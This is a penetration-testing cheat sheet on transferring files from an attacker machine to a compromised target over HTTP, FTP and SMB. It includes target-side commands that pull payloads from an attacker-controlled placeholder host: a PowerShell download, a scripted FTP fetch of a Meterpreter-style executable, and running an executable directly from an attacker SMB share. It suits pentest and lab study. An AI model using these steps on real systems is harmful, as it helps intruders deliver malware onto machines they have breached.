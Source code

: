 # File Transfer

File can either be transferred by:

* Push file to target
* Have the target to pull file back

## HTTP

**On attacker machine**:

### Apache

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start

### Python

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer \[port no\]

**On target machine**:

> http://your\_ip\_address:your\_port\_num/filename

If you only have command line access in a Windows machine, use PowerShell's WebClient object:
> powershell -c "(new-object System.Net.WebClient).DownloadFile('[http://your_ip_address:your_port_num/filename','C:\Users\dest_path\file_name]')"




or use cmd.exe to trigger IE

```
cd Program Files\Internet Explorer start iexplore.exe \[[http://ip](http://ip) address/file\]
```

## FTP

### vsftpd/pytftpd

**On attacker machine**:

`vsftpd` or simply the `pytftpd` library

```
apt-get install python-pyftpdlib
python -m pyftpdlib -p [port_num]
```

default port is 2121

`-w` can grant the user write access

### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

```
use auxiliary/server/ftp
set FTPROOT /root/shells
exploit
```

Can be kill with:

> jobs -k \[id\]

**On target machine**:

Type it into your cmd.exe

> echo open your\_ip\_address&gt;ftp\_commands.txt  
> echo anonymous&gt;&gt;ftp\_commands.txt  
> echo whatever&gt;&gt;ftp\_commands.txt  
> echo binary&gt;&gt;ftp\_commands.txt  
> echo get met8888.exe&gt;&gt;ftp\_commands.txt  
> echo bye&gt;&gt;ftp\_commands.txt  
> ftp -s:ftp\_commands.txt

## SMB

**On attacker machine**:

> `smbserver.py shareName sharePath` `(e.g. smbserver.py TMP /tmp)`

Check with smbclient

> `smbclient -L [your ip address] --no-pass`

**On target machine**: 

> `net view \\\\[attack machine ip address]`

Copy file `copy \\[your ip address]\Sharepath .`

Or execute the file directly from SMB `\\[your ip address]\file.exe`


### Windows to Windows

Create a new local file share:

`NET SHARE work=C:\docs\work /REMARK:"work share" /CACHE:No`

Delete the share:

`NET SHARE work /DELETE`

List the File/Printer shares on a remote computer:

`NET VIEW \\ComputerName`

List all the shares in the domain:

`NET VIEW /DOMAIN`

Join a file share (Drive MAP):

`NET USE [driveletter:] \\ComputerName\ShareName`

(replace [driveletter:] with the drive letter you want to assign).


### Linux to Windows

Backup and modify `/etc/samba/smb.conf`

Add the following configuration
```
[sharedname]
path = [path to share]
available  = yes
valid users = [current user]
read only = no
browsable = yes
public = yes
writable = yes
```

Add user and password
`smbpasswd -a [current user]`

List user
`pdbedit -L`

Restart SMB service
`service smb restart` 

or 

`sudo /etc/init.d/samba restart`

Access the IP address of the computer from Windows
